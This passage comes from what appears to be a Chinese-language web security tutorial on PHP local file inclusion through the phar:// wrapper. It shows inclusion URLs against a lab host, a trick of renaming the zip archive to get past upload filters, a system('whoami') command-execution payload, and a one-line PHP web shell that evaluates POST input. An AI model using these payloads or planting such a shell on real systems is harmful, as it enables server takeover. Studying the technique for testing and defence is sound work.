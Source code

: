 ```php
fileinclude.php?file=phar://test.zip/phpinfo.php
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a8dd9d9404aa76df4247849af791b70065fa6aec.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a8dd9d9404aa76df4247849af791b70065fa6aec.png)

**注意**：其中`test.zip`必须得是以zip压缩文件格式压缩，其它像rar、7z这样的压缩文件格式就不行了。不过`test.zip`的后缀可以不是zip，可以是像`test.jpg`，甚至`test.111`这样的后缀都行。这里就涉及到了绕过了，如果zip后缀不让上传，那么就修改为`test.111`这样的后缀肯定不会被拦截了，这时就能成功：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f4c460033d2f830aac3603886b111d8eca039c82.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f4c460033d2f830aac3603886b111d8eca039c82.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-478b9e2ba3f92ec2419ed82a32418a84c4730c7f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-478b9e2ba3f92ec2419ed82a32418a84c4730c7f.png)

#### phar://（命令执行）

利用条件：

1. php版本大于等于php5.3.0
2. 对allow\_url\_include不做要求。
3. 对allow\_url\_fopen不做要求。

姿势：

同`phar://`，只不过把文件内容改成`<?php system('whoami');?>`

#### phar://（写入木马）

利用条件：

1. php版本大于等于php5.3.0
2. 对allow\_url\_include不做要求。
3. 对allow\_url\_fopen不做要求。

姿势：

写一个木马shell.php，其内容为`<?php @e val($_POST[v]);?>`，打包成zip压缩文件格式的压缩包，如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fc46dfe1953f8fd911b1324a67be62a8f0b9b670.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fc46dfe1953f8fd911b1324a67be62a8f0b9b670.png)

指定绝对路径

```php
http://192.168.1.4/fileinclude.php?file=phar://D:/phpStudy/PHPTutorial/WWW/test.zip/shell.php
```

或者使用相对路径（这里`test.zip`就在当前目录下）

```php
http://192.168.1.4/fileinclude.php?file=phar://test.zip/shell.php
```

先访问url地址，然后马儿就写进去了。
